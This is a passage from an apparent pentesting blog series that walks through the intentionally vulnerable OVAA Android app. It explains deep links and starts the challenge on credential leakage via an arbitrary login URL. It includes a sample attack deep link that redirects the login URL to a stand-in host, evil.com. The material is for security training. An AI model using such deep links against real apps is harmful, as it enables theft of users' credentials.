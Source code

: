 As of writing this post, the app consists of 18 vulnerabilities mainly focused on OWASP Mobile Top 10. This is Part-1 of the series in which we have covered five vulnerabilities. We will try to explain every topic that will come in the way of solving the challenges.

## Prerequisites

Before starting our blog series, it is assumed that the reader has their Android Pentesting Lab ready and also prior knowledge of Android Components and their working.

However, below are some references in case you want to set up your Android Pentesting lab or read more about Android Components:
- [Android Pentesting Lab](#)
- [Penetrate the Protected Component in Android Part-1](#)
- [Penetrate the Protected Components in Android Part-2](#)

If you are reading this, that means you have all the arsenal in your hands. Without any further delay, let’s solve these challenges:

### 1. Leakage of Credentials via Installation of an Arbitrary URL

Before we solve this challenge, we need to understand what a deep link is. Deep links are hyperlinks that allow users to open specific content inside an Android application. Developers often configure these links to save users from the extra burden of locating a particular page themselves, significantly improving the user experience.

A sample deep link looks like:

```
oversecured://ovaa/login?url=http://evil.com
```

Taking the example of the above deep link, we have:
- **scheme**: oversecured
- **host**: OVAA
- **pathPrefix**: /login
- **query**: url=http://evil.com

Exploiting deep links requires an understanding of how the application processes the deep link data. First, decompile the `ovaa.apk` using `jadx-gui` and then locate the `oversecured.ovaa.activities.DeeplinkActivity`. The code should look like the picture below:

![Decompiled Code Snippet](Kerberos_files/image001.png)

As you can see, there are four different `pathPrefix` that are being processed. We will analyze each one of them later. For this challenge, we will focus on the `pathPrefix /login`. In this `pathPrefix`, the application takes the URL parameter from the deep link and assigns it to the `LOGIN_URL_KEY` using `this.loginUtils.setLoginUrl(url2)` if the URL parameter is not null. After that, it starts an activity named `EntranceActivity`.

![Decompiled Code Snippet of EntranceActivity](Kerberos_files/image002.png)

Going into that activity, we can see it is checking if we have already logged in or not. If not, it starts another activity `LoginActivity`.
